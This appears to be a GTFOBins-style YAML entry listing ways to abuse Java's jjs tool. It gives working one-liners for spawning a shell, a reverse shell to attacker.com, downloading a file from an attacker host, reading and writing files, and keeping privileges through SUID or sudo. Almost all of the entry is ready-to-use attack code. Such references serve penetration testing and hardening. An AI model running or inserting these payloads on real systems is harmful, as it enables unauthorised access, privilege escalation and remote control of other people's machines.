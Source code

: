 description: This tool is installed starting with Java SE 8.
functions:
  shell:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'var host=Java.type("java.lang.System").getenv("RHOST");
        var port=Java.type("java.lang.System").getenv("RPORT");
        var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
        var p=new ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var Socket = Java.type("java.net.Socket");
        var s=new Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        echo "var URL = Java.type('java.net.URL');
        var ws = new URL('$URL');
        var Channels = Java.type('java.nio.channels.Channels');
        var rbc = Channels.newChannel(ws.openStream());
        var FileOutputStream = Java.type('java.io.FileOutputStream');
        var fos = new FileOutputStream('$LFILE');
        fos.getChannel().transferFrom(rbc, 0, Number.MAX_VALUE);
        fos.close();
        rbc.close();" | jjs
  file-write:
    - code: |
        echo 'var FileWriter = Java.type("java.io.FileWriter");
        var fw=new FileWriter("./file_to_write");
        fw.write("DATA");
        fw.close();' | jjs
  file-read:
    - code: |
        echo 'var BufferedReader = Java.type("java.io.BufferedReader");
        var FileReader = Java.type("java.io.FileReader");
        var br = new BufferedReader(new FileReader("file_to_read"));
        while ((line = br.readLine()) != null) { print(line); }' | jjs
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
  sudo:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
---
